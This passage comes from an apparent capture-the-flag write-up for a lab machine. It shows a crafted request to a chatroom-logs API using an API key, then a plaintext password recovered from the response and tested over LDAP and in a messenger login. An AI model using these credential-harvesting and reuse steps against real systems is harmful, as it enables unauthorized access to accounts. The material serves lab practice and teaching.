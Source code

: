 Combining this with the other example of the endpoint, we come up with this:

```
GET /api/chatrooms/logs?roomkey=20240220014618@conference.com&fromdate=2024/01/01&todate=2025/01/01 HTTP/1.1
Host: localhost:14125
sec-ch-ua: "Chromium";v="135", "Not-A.Brand";v="8"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
API-KEY: 558R501T5I6024Y8JV3B7KOUN1A518GG
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

Which gives us a lot of unformatted output. If we search inside of the response for martinez, we do find the line:

```
\u003eO.martinez : m@rtinez@1996!\u003c/div
```

We now have the password for martinez, at least for the messenger app. If you run an ldap check with nxc for this password on martinez, you find that it is no longer valid. But you are able to login to the messenger application.

One thing to note that makes this interesting, is that we have already seen O.martinez as active on the messenger application. We should keep this in our memory.

Something interesting we quickly find is that their calendar has some triggers setup to open the infiltrator.htb websote:

<figure><img src=".gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>
